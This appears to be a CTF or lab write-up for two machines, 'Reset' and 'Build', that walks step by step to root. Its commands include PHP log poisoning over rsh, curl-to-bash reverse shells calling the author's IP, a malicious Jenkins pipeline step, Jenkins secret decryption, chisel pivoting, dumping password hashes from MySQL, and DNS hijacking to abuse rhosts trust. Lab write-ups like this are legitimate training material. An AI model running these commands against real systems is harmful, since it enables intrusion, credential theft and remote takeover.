




### Reset

# Before Starting 
```console
Me > 10.8.2.163
Target > 10.10.90.125
```
```console
22/tcp  open  ssh
80/tcp  open  http
512/tcp open  exec
513/tcp open  login
514/tcp open  shell
```
## Acces to admin dashboard

First we have a website with a login panel



If we intercept the request when we click on ```Forgot Password``` we can reset the ```admin``` password



Ok now we can read 2 files, ```/var/log/auth.log``` and ```/var/log/syslog```

## Log poisoning

The ```auth.log``` file is linked to rsh authentication, so we can try log poisoning

```bash
rsh -l root 10.10.90.125 '<?=`$_GET[0]`?>'
```
We can now send requests like:

```console
http://10.10.90.125/dashboard.php?cmd=whoami
```
In order to get the response you do need to look at the auth.log file otherwise it wont work!!!

Now get a reverse shell

```console
http://10.10.90.125/dashboard.php?cmd=curl%20http://10.8.2.163/x|/bin/bash
```
```bash
# Content of "x"

#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.8.2.163/9001 0>&1'
```
## SADM

Ok now if we check in which groups we are with ```id```, we can see ```adm```

That means that we can read most of the log file

There is also a tmux session as the ```sadm user```, because we are part of this group we can also read logs of particular processes

```bash
sadm         736  0.0  0.3   8636  3800 ?        Ss   19:00   0:00 tmux new-session -d -s sadm_session
```
```bash
journalctl _PID=736
```
In the output we find the ```sadm``` password, login as ```sadm``` and check sudo rights

## Privesc on Reset

```bash
sadm@reset:~$ sudo -l
[sudo] password for sadm:
Matching Defaults entries for sadm on reset:
    env_reset, timestamp_timeout=-1, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, !syslog

User sadm may run the following commands on reset:
    (ALL) PASSWD: /usr/bin/nano /etc/firewall.sh
    (ALL) PASSWD: /usr/bin/tail /var/log/syslog
    (ALL) PASSWD: /usr/bin/tail /var/log/auth.log
```
So we can just open ```/etc/firewall.sh``` with ```nano``` and execute something

```bash
sudo /usr/bin/nano /etc/firewall.sh
^R
^X
cp /bin/bash /tmp/bash ; chmod u+s /tmp/bash
```
```bash
/tmp/bash -p 

bash-5.1# id
uid=1001(sadm) gid=1001(sadm) euid=0(root) groups=1001(sadm)
```
Nice !!


### Build

# Before starting

```console
Me > 10.8.2.163
Target > 10.10.90.125
```
```console
PORT     STATE    SERVICE
22/tcp   open     ssh
53/tcp   open     domain
512/tcp  open     exec
513/tcp  open     login
514/tcp  open     shell
873/tcp  open     rsync
3000/tcp open     ppp
3306/tcp filtered mysql
8081/tcp filtered blackice-icecap
```
```console
# NOTE : 3306 and 8081 are filtered
```
There is a gitea on the port ```3000``` and if we click on ```Explore``` we can see this script



So we probably need to find some creds to login in gitea and modify this script to gain a revshell

## Jenkins password

Let's digging in rsync

```bash
rsync -av --list-only rsync://10.10.126.198

backups        	backups
```
```bash
rsync -av rsync://10.10.126.198/backups ./backups

receiving incremental file list
created directory ./backups
./
jenkins.tar.gz
```
```bash
tar -xvf jenkins.tar.gz

# cat /backups/jenkins_configuration/jobs/build/config.xml
<password>{AQAAABAAAAAQUNBJaKiUQNaRbPI0/VMwB1cmhU/EHt0chpFEMRLZ9v0=}</password>
```
Now using [this](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) we can decrypt the password 

```bash
python3 ../decrypt.py jenkins_configuration/secrets/master.key jenkins_configuration/secrets/hudson.util.Secret jenkins_configuration/jobs/build/config.xml

REDACTED
```
## Revshell thanks to gitea

Login in gitea

There is a webhook that triggers on push events, we can check that here ```http://10.10.126.198:3000/buildadm/dev/settings/hooks/1```

Ok so now modify the script like that

```console
pipeline {
    agent any

    stages {
        stage('Do nothing') {
            steps {
                sh 'curl http://10.8.2.163/x|bash'
            }
        }
    }
}
```
Click on ```Commit Changes``` and wait

Ok now we have a shell in a container

As we saw before, 3306 and 8081 are filtered in the nmap scan, so we probably need to access it internally, let's forward with chisel

## Mysql

```bash
chisel server -p 999 --socks5 --reverse

./chisel64 client 10.8.2.163:999 R:socks &
```
First we will enumerate a little

```bash
# /etc/hosts
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.18.0.3	5ac6c7d6fb8e
```
```bash
./fscan -h 172.18.0.0/24

[+] 端口开放 172.18.0.6:80
[+] 端口开放 172.18.0.2:22
[+] 端口开放 172.18.0.1:22
[+] 端口开放 172.18.0.5:8081
[+] 端口开放 172.18.0.2:3000
[+] 端口开放 172.18.0.1:3000
[+] 端口开放 172.18.0.4:3306
[+] 端口开放 172.18.0.1:3306
[+] 端口开放 172.18.0.1:8081
[+] 端口开放 172.18.0.3:8080
```
Now login to mysql

```bash
proxychains -q mysql -h 172.18.0.1 -u root

show databases;
use powerdnsadmin
select * from user;
```
admin;$2b$12$s1hK0o7YNkJGfu5poWx.0u1WLqKQIgJOXWjjXz7Ze3Uw5Sc2.hsEq

Crack the password and login to ```172.18.0.6```

## Privesc with PowerDNS and RSH

If we go to ```http://172.18.0.6/domain/build.vl``` we can see this 



And if we digging deeper on the docker we found this 

```bash
# cat /root/.rhosts

admin.build.vl +
intern.build.vl +
```
We can therefore try to do DNS hijacking then connect with rsh

[Check this](https://docs.oracle.com/cd/E36784_01/html/E36882/rhosts-4.html)

So change ```intern.build.vl``` to your ip and login with rsh like this 

```bash
rsh -l root 10.10.126.198
```
If you have any questions you can dm me on discord : 'ethicxz.'

